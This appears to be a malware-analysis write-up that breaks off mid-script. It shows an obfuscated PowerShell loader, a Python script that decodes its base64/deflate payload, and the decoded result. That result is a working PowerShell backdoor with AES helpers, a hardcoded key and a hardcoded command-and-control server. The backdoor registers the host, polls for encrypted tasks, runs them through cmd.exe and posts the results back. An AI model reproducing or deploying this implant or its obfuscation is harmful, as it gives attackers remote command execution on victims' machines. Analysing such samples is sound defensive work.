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' ) , [iO.COmpreSSIOn.cOMPrEssionmode]::decOMpReSS )|% {nEW-OBJeCT  Io.StREamreadEr($_,[TEXt.enCoDInG]::AsciI )} ).reAdToENd()
```

The `PowerShell` script will decode the `base64` string and then `decompress` it using `deflate` for execution. At this point, I have created a `Python script` to decode this `base64` string again. 

`Python script`

```python
import base64
import zlib

data = '''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
'''

debase = base64.b64decode(data)

decomp = zlib.decompress(debase,-15)

print(decomp.decode())
```

`Result`

```powershell
${8r`T3WA}  = [tyPe]("{1}{8}{4}{6}{5}{9}{2}{3}{0}{7}"-F 'd',("{0}{1}"-f 'syS','TEm'),("{1}{0}"-f'ERM','h'),'O',("{0}{1}"-f 'eCUrI','tY'),("{0}{1}" -f 'h','Y.Ci'),("{0}{1}{2}" -f '.cry','P','TOGRap'),'e','.s','p') ;.('SV') ("{0}{1}"-f '72','j5O')  (  [TYpe]("{9}{1}{4}{0}{8}{10}{6}{12}{7}{11}{3}{2}{5}" -F 'TY',("{1}{2}{0}" -f 'eC','Yst','em.s'),'Od','m','uri','e','p','Di',("{0}{1}" -f'.','cRY'),'s',("{2}{1}{0}"-f 'Y.','toGRapH','p'),'ng','aD')  ) ;   ${X`NfD}=[tyPe]("{2}{0}{1}{3}"-f 'te',("{0}{1}"-f'm','.cONV'),'Sys','ErT')  ;  ${H`LvW1} =  [tYPe]("{2}{4}{3}{5}{1}{0}" -f 'iNG',("{0}{2}{1}" -f 't','Od','.EnC'),'S',("{1}{2}{0}"-f '.t','S','tEM'),'Y','EX');  .("{0}{2}{1}" -f'SeT','m',("{0}{1}"-f'-iT','e')) (("{0}{1}"-f 'vA','RI')+("{0}{1}" -f 'a','bLE')+("{1}{0}" -f'y7',':92'))  (  [Type]("{1}{2}{0}" -F ("{1}{0}{2}"-f 'NEt.dn','eM.','S'),'Sys','t'))  ; ${U`JX`Rc}=[tyPE]("{1}{2}{0}" -F 'nG','Str','i') ;function Cr`EATe-`AeS`manA`GeDo`B`Je`Ct(${vx`ZT`mff}, ${5`T`MRWpLUy}) {
    
    ${AJuJ`V`RAZ`99}           = .("{1}{2}{3}{0}"-f 't',("{0}{1}" -f'Ne','w-'),("{1}{0}" -f 'e','Obj'),'c') ("{7}{9}{8}{0}{10}{2}{6}{5}{3}{11}{1}{4}"-f 'ty','nag',("{0}{2}{1}" -f 'Cry','o','pt'),'y','ed','ph','gra',("{0}{1}"-f'Sy','stem.'),("{0}{1}"-f 'ecur','i'),'S','.',("{0}{2}{1}" -f'.','sMa','Ae'))
    ${AJUjvr`AZ`99}."Mo`de"      =   (  .("{1}{2}{0}" -f 'lE',("{1}{0}" -f't-vA','gE'),("{1}{0}" -f'Ab','RI'))  ("8rt"+"3Wa") -Value  )::"c`Bc"
    ${aJuj`V`RAZ99}."PA`d`dInG"   =  ( .("{0}{1}"-f 'Di','r')  ("{2}{3}{0}{1}"-f'le:72j5','o','v','ARIab')  )."VA`LUe"::"ze`Ros"
    ${A`JUJvr`Az`99}."Bl`O`ckSizE" = 128
    ${Aju`Jv`RAz`99}."keysI`ze"   = 256
    
    if (${5`TM`RWPluy}) {
        
        if (${5`TmR`WpLuy}.("{0}{1}{2}" -f ("{1}{0}"-f 'tT','ge'),'y','pe')."iNV`O`ke"()."n`AME" -eq ("{0}{2}{1}" -f 'St','g','rin')) {
            ${a`j`U`jvRaZ99}."Iv" =  (&("{1}{0}"-f'r','di')  ("{0}{1}{2}{3}" -f 'va','RI','aB','le:xNFd'))."vAl`Ue"::("{1}{2}{3}{0}"-f 'ing','Fro',("{1}{0}{2}" -f'se','mBa','64'),'Str')."In`VOKe"(${5TMRW`Pl`Uy})
        }
        
        else {
            ${ajUj`VraZ`99}."I`V" = ${5tmRw`PL`Uy}
        }
    }
    
    if (${Vx`ZtM`FF}) {
        
        if (${VXz`T`mfF}.("{1}{2}{0}" -f ("{1}{0}"-f'e','Typ'),'g','et')."I`NvoKe"()."n`AME" -eq ("{1}{0}" -f 'ing','Str')) {
            ${ajU`j`VraZ99}."K`ey" =  ( &('LS') (("{0}{1}"-f'V','ariAb')+'l'+("{0}{1}" -f 'e:XN','F')+'D') )."vA`luE"::("{1}{0}{2}{3}"-f'e',("{1}{0}" -f'as','FromB'),'64S',("{1}{0}" -f 'ng','tri'))."invO`Ke"(${vx`z`TmFF})
        }

        else {
            ${AjU`J`Vr`AZ99}."k`ey" = ${v`Xz`Tmff}
        }
    }

    ${aJUjvRA`Z`99}
}
function e`N`CRYpT(${VxzT`M`Ff}, ${RO`FPdq`R`F99}) {

    ${B`y`TES}             =   (  .("{1}{0}"-f ("{1}{2}{0}"-f 'e','arI','abl'),'v')  (("{1}{0}" -f'lvW','h')+'1') )."vAL`UE"::"u`Tf8".("{2}{0}{1}" -f 'yt','es',("{0}{1}" -f 'G','etB'))."INV`o`kE"(${r`O`FpdQRF99})
    ${ajujVR`AZ`99}        = .("{4}{0}{2}{5}{3}{1}"-f("{1}{0}" -f'-','eate'),'ct','Ae',("{1}{0}" -f'e','edObj'),'Cr',("{1}{0}{2}"-f 'Ma','s','nag')) ${VX`ZtM`Ff}
    ${qD`IqL`GaQ99}         = ${aJuj`VR`AZ99}.("{1}{2}{0}" -f'or',("{0}{1}{2}" -f'Create','En','c'),("{1}{0}" -f 't','ryp'))."in`VoKe"()
    ${lw`i`hYmIF99}     = ${Qd`i`qLgaq99}.("{3}{4}{1}{0}{2}"-f ("{0}{1}{2}"-f 'nal','Bl','o'),("{1}{0}" -f'mFi','for'),'ck','Tra','ns')."i`NvO`Ke"(${b`yTeS}, 0, ${b`y`Tes}."Le`NgTh");
    [byte[]] ${f`J`AxUWQ`N99} = ${A`Ju`jvR`Az99}."Iv" + ${lW`iHYmiF`99}
    ${aj`UJ`V`RAZ99}.("{1}{2}{0}"-f 'e','Dis','pos')."i`NVO`KE"()
     ${x`NFd}::"tOBase6`4`S`TRi`NG"."i`Nvoke"(${Fj`A`X`UWqN99})
}
function deC`Ry`PT(${VXzt`m`FF}, ${b`KJrxQ`Cf`99}) {

    ${bYT`Es}           =   (&("{0}{2}{1}" -f'v',("{0}{1}" -f 'i','able'),'AR')  ('xnf'+'d') )."Va`luE"::("{3}{1}{2}{0}" -f ("{0}{1}" -f'r','ing'),'o',("{2}{0}{1}"-f'e6','4St','mBas'),'Fr')."InV`OKE"(${Bk`jRx`qcF99})
    ${5t`MR`WpLuY}              = ${B`Y`Tes}[0..15]
    ${aJu`JVra`z99}      = .("{0}{2}{4}{3}{1}" -f ("{1}{0}"-f'rea','C'),("{1}{0}"-f 'ect','j'),("{0}{1}" -f't','e-Aes'),'dOb',("{0}{1}{2}"-f'Mana','g','e')) ${VxZTm`FF} ${5TMRw`p`LUY}
    ${MNDm`WYnB`99}       = ${AJ`Ujv`RA`z99}.("{4}{0}{2}{1}{3}" -f'ea','ry',("{0}{1}"-f'te','Dec'),("{0}{1}"-f'p','tor'),'Cr')."In`Voke"();
    ${A`htL`MYh`l99} = ${M`ND`mWynB99}.("{0}{3}{1}{4}{5}{2}"-f 'T',("{0}{1}"-f 'fo','rmFi'),("{1}{0}"-f'lock','B'),("{1}{0}" -f's','ran'),'na','l')."i`Nvo`kE"(${b`Y`TES}, 16, ${b`yTeS}."lENg`TH" - 16);
    ${A`J`UjVRAZ99}.("{1}{0}"-f 'se',("{1}{0}" -f 'spo','Di'))."IN`VO`KE"()
      ${HLV`W1}::"uT`F8"."G`E`TStri`Ng"(${AhtL`m`Y`hl99})."T`RIM"([char]0)
}
function Sh`ELL(${DfJz`1co}, ${y`o`8xm5}){

    ${Cw`zVY`VJ}                        = &("{1}{2}{0}" -f 'ct','Ne',("{0}{1}"-f 'w-O','bje')) ("{4}{3}{5}{0}{1}{2}"-f ("{5}{2}{0}{3}{4}{1}"-f'P','I','cs.','roc','essStart','i'),'n','fo',("{0}{1}"-f'ys','te'),'S',("{0}{2}{1}"-f'm.Di','st','agno'))
    ${Cw`ZVy`Vj}."FIlena`me"               = ${DFjZ1`co}
    ${C`W`zvYvj}."r`eDIRec`TsT`AnDaRdERr`OR"  = ${T`Rue}
    ${cwZ`V`YVJ}."ReDIRE`cT`s`TANdar`DoUTPUT" = ${tR`Ue}
    ${C`WZv`yVJ}."USEs`hELl`eXeC`U`Te"        = ${F`ALsE}
    ${c`wzvy`VJ}."aRg`UmENtS"              = ${yO8`x`m5}
    ${p}                            = .("{0}{2}{1}" -f'New',("{1}{0}"-f 'ject','Ob'),'-') ("{6}{0}{4}{3}{1}{2}{5}" -f("{1}{2}{0}" -f 'Dia','yst','em.'),("{1}{2}{0}"-f 'P','o','stics.'),'ro','n','g',("{0}{1}" -f 'ces','s'),'S')
    ${P}."s`T`ArTiN`FO"                  = ${C`W`zvYVj}

    ${p}.("{1}{0}" -f("{1}{0}"-f'art','t'),'S')."INvo`KE"() | &("{2}{1}{0}"-f'l',("{1}{0}" -f'Nul','t-'),'Ou')
    ${P}.("{2}{1}{0}{3}"-f'Exi',("{0}{1}"-f 'tF','or'),'Wai','t')."inv`oKE"()

    ${BHnxN`Ur`W99} = ${p}."sta`Ndar`dOu`TpUT".("{2}{0}{1}" -f("{1}{0}" -f 'En','To'),'d',("{0}{1}" -f 'R','ead'))."I`NV`OkE"()
    ${NmWkj`O`A`B99} = ${p}."St`A`N`dArde`RrOR".("{2}{1}{3}{0}"-f'nd','To',("{1}{0}" -f'd','Rea'),'E')."Inv`o`ke"()
    ${k`C`NjcQdL} = ('VAL'+'ID '+"$BhnXnUrW99`n$nmWKJOAb99")
    ${K`cnJcQ`Dl}
}
${FZvyCr}   = ("{0}{2}{3}{1}" -f '12',("{0}{1}{2}"-f '.2','07',("{1}{0}" -f'20','.2')),'8',("{1}{0}"-f'9','.19'))
${t`wFTrI} = ("{0}{1}"-f'7','331')
${VxzTmff}  = ("{2}{1}{4}{6}{3}{0}{7}{5}"-f 'XI',("{0}{1}{2}" -f 'w',("{0}{1}" -f 'jM7','m2'),'c'),("{0}{1}" -f 'd','/3K'),'u','GAt','+M=',("{0}{1}{2}" -f'L','I',("{1}{0}"-f("{1}{0}"-f'lhD','7K'),'6')),("{0}{2}{3}{1}"-f("{2}{1}{0}"-f 'KST','XR','/'),'R',("{0}{1}"-f'k',("{1}{0}"-f'lmJ','O')),("{0}{1}"-f 'XE','42')))
${n}    = 3
${C`w`j2TWh} = ""
${yC`RU`Tw} =   ${9`2Y7}::("{2}{0}{1}"-f("{1}{0}{2}"-f't','etHos','N'),'ame','G')."in`VoKE"()
${F`N`FFGXDzj}  = "p"
${D`FctD`FM}  = (("{0}{1}" -f'ht','tp') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/reg")
${kV`QBXbuR}  = @{
    ("{0}{1}"-f 'n','ame') = "$YCRUTw"
    ("{1}{0}"-f 'pe','ty') = "$fNFFGXDZJ"
    }
${CWj2`TWh}  = (&("{4}{3}{2}{0}{1}"-f '-',("{1}{2}{0}"-f't','W','ebReques'),'ke','nvo','I') -UseBasicParsing -Uri ${d`Fct`DFM} -Body ${k`V`qBxbUr} -Method ("{1}{0}"-f'OST','P'))."co`N`TENT"
${TvYM`e`YrR99} = (("{0}{1}"-f'htt','p') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
${i`JfySE2}   = (("{1}{0}" -f 'p','htt') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
for (;;){

    ${M`A04XM`gY}  = (.("{2}{0}{3}{1}{4}" -f'n',("{0}{1}"-f'q','ues'),'I',("{0}{1}{2}" -f 'voke-W','e','bRe'),'t') -UseBasicParsing -Uri ${I`J`FYSE2} -Method 'GET')."cO`N`TeNt"

    if (-Not  ${UJX`Rc}::("{1}{0}{3}{2}"-f 'l',("{0}{1}"-f'IsN','ul'),("{1}{0}{2}" -f 'mpt','rE','y'),'O')."INvO`Ke"(${M`A04XmGy})){

        ${m`A04XM`gY} = .("{0}{1}" -f("{1}{0}" -f 'r','Dec'),'ypt') ${V`XZ`Tmff} ${Ma04X`MgY}
        ${mA0`4X`MgY} = ${ma0`4`XMgy}.("{1}{0}"-f'it','spl')."INv`okE"()
        ${FL`AG} = ${MA04`x`mgY}[0]

        if (${Fl`Ag} -eq ("{0}{1}" -f 'VAL','ID')){

            ${WB1`SWYo`je} = ${MA04`X`MgY}[1]
            ${yO8`X`M5S}    = ${Ma0`4XMgY}[2..${MA04x`mgY}."LeNg`TH"]
            if (${wb1s`Wyo`Je} -eq ("{1}{0}"-f'l',("{1}{0}" -f'hel','s'))){

                ${F}    = ("{0}{1}{2}"-f 'c',("{1}{0}" -f'e','md.'),'xe')
                ${y`O`8XM5}  = "/c "

                foreach (${a} in ${yo8`xM`5s}){ ${Yo8`x`m5} += ${a} + " " }
                ${KcNJ`C`QdL}  = .("{0}{1}"-f 'sh','ell') ${f} ${yo`8xM5}
                ${kCnjCQ`DL}  = .("{1}{2}{0}"-f 'pt','Enc','ry') ${VxztM`FF} ${kc`Nj`cqdl}
                ${kvqbX`B`Ur} = @{("{1}{0}" -f 'lt',("{0}{1}" -f 'r','esu')) = "$KcnJCQDl"}

                &("{3}{0}{1}{4}{2}" -f'ke','-W',("{0}{1}" -f 'qu','est'),("{0}{1}"-f'I','nvo'),("{1}{0}" -f 'bRe','e')) -UseBasicParsing -Uri ${tV`yM`Ey`RR99} -Body ${k`V`QbXbur} -Method ("{1}{0}" -f 'T','POS')
            }
            elseif (${Wb1Sw`Y`OJe} -eq ("{1}{0}{2}"-f 'owe','p',("{2}{1}{0}" -f 'l','l','rshe'))){

